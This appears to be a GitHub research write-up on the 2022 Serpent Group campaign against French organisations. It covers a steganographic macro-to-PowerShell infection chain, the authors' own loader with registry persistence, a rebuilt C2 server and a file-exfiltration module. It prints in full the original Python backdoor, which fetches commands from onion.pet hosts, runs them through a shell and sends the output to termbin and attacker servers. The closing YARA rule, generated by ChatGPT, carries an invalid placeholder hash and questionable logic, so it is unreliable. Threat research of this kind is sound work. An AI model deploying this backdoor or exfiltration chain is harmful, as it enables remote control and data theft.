

# Serpent Group 🐍


A brief and technical study about a malicious campaign targeting french entities in the construction, real estate and government industries.

---

## Intro

In march 2022, **Proofpoint** identified a new email campaign aimed at french entities, one month before the presidential elections.

The security firm attributed this campaign to a likely advanced threat actor, named **Serpent Group**, based on the TTPs observed especially leveraging the python language as a vector. The ultimate objective still remains unknown. 

This study focuses on detailing and reproducing the initial access techniques and procedures used during this campaign.

---

## Initial Access

Attackers used spear-phishing with attachment (MITRE T1566.001) and a resume-themed subject line. 

<p align=center>
    
</p>


The attached Microsoft Word document, masquerading as an information related to GPDR, contained a malicious VBA macro which downloads an image (```https://www.fhccu[.]com/images/ship3[.]jpg```)  that contains a powershell script embedded and executes it.

The use of this steganography technique is well documented ([**MITRE T1027.003**](hhttps://attack.mitre.org/software/S0231/)). Groups like **Sandworm Team** have already exploited it during their campaigns, particularly with the [**Invoke-PSImage**](https://github.com/peewpw/Invoke-PSImage) tool.

We developed our own version of the malicious VBA Macro which decrypts and executes a powershell command under the Outlook process to download an retrieve the malicious image.

<p align=center>
    
</p>

The powershell script, embedded in the image, downloads and installs **Chocolatey**, a package manager for Windows, similar to apt-get or yum on Linux systems. 

<p align=center>
    
</p>

Then, the powershell script used **Chocolatey** to install **Python** and **pip** to install various dependencies including **PySocks**, on the Windows target machine. Keep in mind that this action requires administrative privileges.

Next, the powershell script downloaded another image (```https://www.fhccu[.]com/images/7[.]jpg```) containing a python script also hidden using steganography and saved the python script as **MicrosoftSecurityUpdate.py**. Finally, it created and executed a .bat script that in turn executed the malicious MicrosoftSecurityUpdate.py a.k.a [**Serpent Backdoor**](tools/MicrosoftSecurityUpdate.py).

During this study, we came up with a similar powershell script, named [**chocoloader.ps1**](tools/chocoloader.ps1), that installs [**Anaconda**](https://community.chocolatey.org/packages/anaconda3) instead which doesn't require elevated privileges. We also implemented a registry run key persistence which will run python and the Serpent backdoor. 

---
## Command and Control

Both Proofpoint's and VMWare TAU's analysis revealed a custom C2 Agent written in Python by the Threat Actor (see the full client code at the end of this chapter).

This custom C2 Agent is a step-by-step :
1. Every 10 seconds, the client will fetches text-based commands from the _"orders"_ / _"commands"_ server with its hostname as a unique identifier in the "Referer" HTTP header


3. If the response contains something, and is different from the last command, the client waits 20 seconds, then runs the new command

5. Then, in order to collect the output, the client will send it to Termbin, a pastebin-like website : give it content and receive a link to access your previously uploaded content

7. This request is sent to URLs ending with ".onion.pet", where _.pet_ domains act as proxies to the real Tor network's websites

9. Once Termbin sent back a link to the client, it is then sent to another _.pet_ domain controlled by attackers, which will act as an _"anwser"_ server with, again, the "Referer" HTTP header being used to store the hostname and the Termbin link

In a simpler non-technical version :
1. Every 10 seconds, the python client asks the C2 Server new commands to execute
2. Then it executes a new command for the given hostname
3. Output of the command is sent to a pastebin-like website, in exchange for a public link
4. This link is then sent to another attacker-controlled server, where is would then be accessed by attackers

From the C2 Agent, we mapped the workflow of the Command & Control cycle, and the data exfiltration process :


For testing purposes, in order to reproduce this environment, with merged the two servers (commands and answers) into one, and removed the Tor proxy part :
_lab testing workflow_

Now, from the reverse engineering of the client, we developed the C2 Server application according to the logic of the client.
We used the following development stack :
- Back-end : Flask for Python Web Server
- Front-End : VueJS / TailwindCSS
- Database : SQLite3 

Here is our **godly designed** dahsboard :


In the upper-side, you can see infected machines and their general info :
- IP address
- Hostname
- OS

Once you click a machine, more information is shown in the lower part, and commands can be given to this machine.
For instance, an operator could want to know what files are in the home directory of an infected user, and would give the following command : 


The C2 Client on the infected machine will fetch the order, execute, send the output to Termbin, and send the link back to the C2 Server :
")

Once the C2 Server registered the response link, the operator can freely check the output, and delete if needed :


Now here is a video demo of the basic C2 workflow and data exfil :


However, **files exfiltration** was not part of the process,

So, we developed it following the same data exfil procedure for text content : compress files and send them to an online files hosting service, in exchange for a link. The service used was _transfer.sh_ :


In order to compress folders into a zip archive, we used the native Powershell function called _Compress-Archive_, and added this module to the Client.

We created a custom command with a basic syntax :
```bash
ccdl <file1> <file2>
```


And as previously, the C2 Operator receives the link and can now download files from an infected machine :


_This module is rudimentary, and could be improved to be able to download particular files. Indeed, the Powershell function allows to create archives of a maximum size of 2GB. However, this does not require installing any additional tools, and could potentially not raise alerts._

Here is the original Python C2 Agent :

```python
#!/usr/bin/python3  
  
from subprocess import Popen, PIPE, STDOUT  
import requests  
import re  
import socket  
import time  
  
cmd\_url\_order = 'http://mhocujuh3h6fek7k4efpxo5teyigezqkpixkbvc2mzaaprmusze6icqd[.]onion.pet/index.html'  
cmd\_url\_answer = 'http://ggfwk7yj5hus3ujdls5bjza4apkpfw5bjqbq4j6rixlogylr5x67dmid[.]onion.pet/index.html'  
hostname = socket.gethostname()  
hostname_pattern = 'host:%s-00' % hostname  
headers = {}  
referer = {'Referer': hostname_pattern}  
cache_control = {'Cache-Control': 'no-cache'}  
headers.update(referer)  
headers.update(cache_control)  
check\_cmd\_1 = ''  
  
def recvall(sock, n):  
  data = b''  
  while len(data) < n:  
    packet = sock.recv(n - len(data))  
    if not packet:  
      return None  
    data += packet  
  return data  
  
  
def get_cmd():  
    req = requests.get(cmd\_url\_order, headers=headers).content.decode().strip()  
    if req == '':  
        pass  
    else:  
        return req  
  
def run_cmd(cmd):  
    cmd_split = cmd.split('--')  
    if cmd_split\[1\] == hostname:  
        cmd = cmd_split\[2\]  
        print(cmd)  
        run = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=STDOUT)#.decode()  
        out = run.stdout.read()  
        if not out:  
            out = b'ok'  
        termbin_cnx = socks.socksocket()  
        termbin\_cnx = socket.socket(socket.AF\_INET, socket.SOCK_STREAM)  
        socks.setdefaultproxy(socks.PROXY\_TYPE\_SOCKS5, '172.17.0.1', '9050', True)  
        termbin_cnx.connect(('termbin[.]com', 9999))  
        termbin_cnx.send(out)  
        recv = termbin_cnx.recv(100000)  
        termbin\_url\_created = recv.decode().rstrip('\\x00').strip()  
        print(termbin\_url\_created)  
        termbin\_header = {'Referer': hostname\_pattern+" -- "+termbin\_url\_created}  
        headers.update(termbin_header)  
        try:  
            push = requests.get(cmd\_url\_answer, headers=headers)  
            print('executed')  
            headers.update(referer)  
        except Exception as e:  
            print(e)  
            pass  
    else:  
        print('not for me')  
         
while True:  
    time.sleep(10)  
    try:  
        check\_cmd = get\_cmd()  
        if check\_cmd != check\_cmd_1:  
            time.sleep(20)  
            print(check_cmd)  
            run\_cmd(check\_cmd)  
            check\_cmd\_1 = check_cmd  
            pass  
    except Exception as e:  
        print(e)  
        pass

```


---
## YARA Rules

Here is an example of a yara rule to detect a powershell or python script embedded in an image. This rule has been generated using chatGPT.

<pre>
<code>
rule Image_Containing_Scripting_Language
{
    meta:
        author = "chatGPT"
        description = "Rule to detect image containing PowerShell or Python script"
        reference = "https://proofpoint.com/us/threat-insight/post/serpent-group-targets-french-entities-via-malicious-image-attachments"
        date = "2022-03-01"
        hash = "1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p"
    strings:
        $powershell = "powershell" ascii nocase
        $python = "python" ascii nocase
        $powershell_encoded = {40 70 6F 77 65 72 73 68 65 6C 6C}
        $python_encoded = {40 70 79 74 68 6F 6E}
        $script = {63 72 65 61 74 65 20 53 63 72 69 70 74}
        $obfuscated_1 = "eval("
        $obfuscated_2 = "str_rot13("
        $obfuscated_3 = "base64_decode("

    condition:
        any of ($powershell, $python, $powershell_encoded, $python_encoded) and $script and (any of ($obfuscated_1, $obfuscated_2, $obfuscated_3))
}
</code>
</pre>

This rule looks for the strings "powershell", "python" in the file being scanned, the encoded version of the these string, the string "create script" which is a common string found in scripts, and also look for common obfuscation techniques such as eval(), str_rot13(), base64_decode().

It's also possible to add more obfuscation techniques, but keep in mind that the rule may become too specific and may not match other variations of the same script. It's always a balance between specificity and coverage.

## References

- Proofpoint : https://www.proofpoint.com/us/blog/threat-insight/serpent-no-swiping-new-backdoor-targets-french-entities-unique-attack-chain
- VMWare Threat Analysis Unit (TAU) : https://blogs.vmware.com/security/2022/04/serpent-the-backdoor-that-hides-in-plain-sight.html
